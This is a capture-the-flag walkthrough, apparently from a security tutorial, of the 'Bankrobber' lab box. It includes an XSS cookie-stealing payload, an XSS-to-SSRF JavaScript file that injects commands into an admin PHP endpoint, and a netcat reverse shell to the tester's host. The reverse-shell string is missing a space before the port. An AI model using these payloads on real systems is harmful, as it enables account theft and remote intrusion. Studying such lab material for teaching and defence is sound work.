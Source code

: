 # Exercise: Discovering XSS on Bankrobber

An nmap scan reveals that Bankrobber is a Windows box and has HTTP running on ports 80 and 443, SMB on port 445 and MariaDB on port 3306:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- bankrobber.htb \
    -oA nmap/full-tcp
<SNIP>
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp open ssl/http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after: 2019-11-08T23:48:47
| MD5: a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds 
    (workgroup: WORKGROUP)
3306/tcp open mysql MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

MariaDB is very similar to MySQL and uses the same SQL syntax. After navigating to the URL [http://bankrobber.htb](http://bankrobber.htb) we find a Bitcoin trading platform called E-coin.

![Home page of Bankrobber](../.gitbook/assets/0%20%281%29%20%282%29.png)

There is a login function and below that a place to register new accounts. If we register an account with username 'john' and password 'password' and then login, we are taken to a page that allows us to transfer E-coin to \(presumably\) another user using the ID of the user.

![Transfer E-coin function of Bankrobber](../.gitbook/assets/1%20%283%29.png)

If we right click on the page and select Inspect Element to go into the developer tools of the browser, we can navigate to the Storage tab and look at the Cookies that have been set. The cookies are:

```text
id: 3
password: cGFzc3dvcmQ%3D
username: am9obg%3D%3D
```

The username and password cookies are simply the Base64 encoded versions of "john" and "password" which you can verify for yourself. We can see that the id of the user is 3 and so it suggests that there are at least 2 other users \(1 and 2\) on the system.

If we submit a transaction by entering 100 as the amount, 2 as the id and a comment of "test", a popup reports "Transfer on hold. An admin will review it within a minute. After that he will decide whether the transaction will be dropped or not.".

This suggests that a person will be reviewing the transfer and so anything we put in the comment field is likely to be rendered when the admin views it. This makes the comment field a candidate for cross-site scripting. To test this, let us start a Python web server on our box:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
```

We can then create a new transaction and put the following HTML into the comment field:

```javascript
<img src=http://10.10.14.29/img.jpg />
```

This eventually hits the Python web server, and we get the request:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.70.254 - - [25/Feb/2021 10:38:08] code 404, message File not found
10.129.70.254 - - [25/Feb/2021 10:38:08] "GET /img.jpg HTTP/1.1" 404 -
```

So we know that XSS works. The first thing we can do is to steal the administrator's cookies. We know that the cookies used on the site simply consist of the username and password Base64 encoded. To get them we can use the JavaScript function document.cookie\(\) in the following way:

```javascript
<img src=x onerror=this.src="http://10.10.14.135/?c="+document.cookie />
```

This returns the base64 for both username and password to be "admin" and "Hopelessromantic":

```text
10.129.70.254 - - <SNIP> "GET /?c=username=YWRtaW4%3D;
    %20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 200 -
```

After doing the SQL Injection to read source code \(see later in the SQL injection section\), you discover a php file called backdoorchecker.php that will execute a "dir" command supplied as POST parameter. However, the check only tests if the first three characters are equal to "dir". By adding a "\|" after "dir" you can add any other Windows command. The file backdoorchecker.php also checks that the request came from the same machine checking that the "REMOTE\_ADDR" is equal to "::1" the IPv6 localhost address.

To exploit backdoorchecker.php, you can use the XSS to do an SSRF attack. To validate that this will work, you will write a JavaScript file hosted from our machine and test a "ping" command. Writing a script attack.js as follows:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | ping -n 5 10.10.14.29";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

To check that the ping is being sent, you can start tcpdump to collect the ping packets which are of the type ICMP:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

To initiate the XSS you can use the script tag instead of the img tag. This will fetch and execute the script attack.js:

```javascript
<script src="http://10.10.14.135/attack.js"></script>
```

Once the script is fetched from the server, you should see tcpdump reporting the pings being sent to our box:

```bash
12:26:08.465546 IP bankrobber.htb > 10.10.14.135: ICMP echo request, 
    id 1, seq 1, length 40
12:26:08.465571 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, 
    id 1, seq 1, length 40
12:26:08.465586 IP bankrobber.htb > 10.10.14.135: ICMP echo request, 
    id 1, seq 2, length 40
12:26:08.465592 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, 
    id 1, seq 2, length 40
<SNIP>
```

We haven't dealt with exploitation and how to get access to an interactive session on a remote box, however we will quickly get a "reverse shell" on the Bankrobber box using Netcat. Netcat for windows can be downloaded from [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/). Take a copy of the nc64.exe and rename as nc.exe in your working directory.

As you are targeting a Windows box, you can provide access to netcat via SMB using a tool smbserver.py which is part of the Impacket tools.

{% hint style="info" %}
To install Impacket in the /opt directory, you can use:

`git clone https://github.com/SecureAuthCorp/impacket.git`
{% endhint %}

You can then run smbserver.py directly from /opt/impacket/examples/smbserver.py

\([https://github.com/SecureAuthCorp/impacket\](https://github.com/SecureAuthCorp/impacket\)\). To share a directory using smbserver you use the syntax:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo /opt/impacket/examples/smbserver.py share $(pwd) -smb2support
```

We can then modify attack.js to the following:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | \\\\10.10.14.135\\share\\nc.exe 10.10.14.135" +
             "6001 -e cmd.exe";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

We would start the webserver to serve the JavaScript file and netcat listener to receive the incoming connection for the reverse shell:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Bankrobber]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.135] from (UNKNOWN) [10.129.103.158] 49736
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.
C:\xampp\htdocs\admin>whoami
whoami
bankrobber\cortin
```

This is not the end of the box, we have a reverse shell as the user cortin but the next part is privilege escalation which involves a buffer overflow, something we will deal with in Chapter 6.

